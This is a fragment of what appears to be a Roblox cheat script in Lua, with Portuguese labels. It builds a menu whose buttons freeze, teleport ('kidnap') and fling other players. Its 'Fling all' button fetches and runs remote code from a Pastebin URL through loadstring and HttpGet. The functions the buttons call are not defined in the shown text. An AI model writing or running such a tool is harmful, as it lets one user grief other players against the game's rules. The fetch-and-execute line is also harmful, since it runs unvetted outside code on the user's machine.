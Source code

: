 Tab:AddButton({
Name = "Freeze kill",
Description = "Equipa o item 'Couch' e teleporta o jogador selecionado",
Callback = function()
LagAdvancedPlayer()
end
})

Tab:AddButton({
Name = "Kidnapping",
Description = "Equipa o item 'Couch' e teleporta o jogador selecionado",
Callback = function()
FlyAdvancedPlayer()
end
})
local Section = Tab:AddSection({
	Name = "Fling area"
})
local playerDropdown = Tab:AddDropdown({
Name = "Select Player",
Default = "",
Options = updatePlayerList(),
Callback = function(value)
selectedPlayer = game.Players:FindFirstChild(value)
end
})

Tab:AddButton({
Name = "Update Player List",
Callback = function()
playerDropdown:Refresh(updatePlayerList(), true)
end
})

Tab:AddButton({
Name = "Start Fling",
Callback = function()
startFling()
end
})

Tab:AddButton({
Name = "Stop Fling",
Callback = function()
stopFling()
end
})
local Section = Tab:AddSection({
    Name = "all"
})
Tab:AddButton({
	Name = "Fling all",
	Callback = function()
      	loadstring(game:HttpGet("https://pastebin.com/raw/zqyDSUWX"))()
  	end    
})
-- Variável para controlar o toggle
local teleportToggle = false

